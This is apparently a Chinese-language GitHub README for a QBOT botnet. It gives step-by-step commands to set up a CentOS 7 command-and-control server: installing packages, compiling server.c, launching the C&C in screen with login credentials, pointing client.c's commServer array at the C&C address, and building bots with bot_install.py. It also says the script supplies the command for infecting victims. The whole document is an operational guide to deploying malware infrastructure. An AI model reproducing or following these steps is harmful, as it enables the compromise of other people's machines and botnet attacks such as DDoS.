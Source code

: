 # 非常哈基米的僵尸网络(QBOT)  
`首先你得有一个centos 7系统`  
然后安装依赖  
```bash
curl -o /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
yum update -y
yum install epel-release -y
yum install vim screen gcc perl wget lbzip bzip2 unzip httpd -y
```
## 然后编译cnc主端  
```bash
gcc server.c -o server -pthread
```
## 编译完主端你就可以先运行了
```bash
#创建一个登录文件
vi login.txt
#格式:
用户名 密码
#然后启动主端
screen ./server 监听僵尸端口 线程 telnet连接端口
ctrl+a+d退出
如果你想查看主端可以先输入指令
screen -ls
查看会话
然后
screen -r 会话名
```
## 更换client.c的cnc 地址和端口
```c
client.c:


unsigned char *commServer[] = {"ip:port", "ip:port"};

```
## 编译僵尸
```python
python bot_install.py
```
`完事就是这么简单`  
`传马命令他会给出的`  
`后面僵尸自己弄`  

